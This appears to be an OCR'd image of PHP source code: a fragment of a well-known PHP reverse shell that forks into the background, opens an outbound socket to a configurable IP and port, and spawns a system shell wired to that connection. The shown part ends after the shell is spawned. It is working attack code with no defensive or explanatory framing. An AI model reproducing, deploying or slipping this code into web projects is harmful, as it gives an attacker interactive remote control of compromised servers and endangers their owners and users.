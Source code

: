 ```php
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
```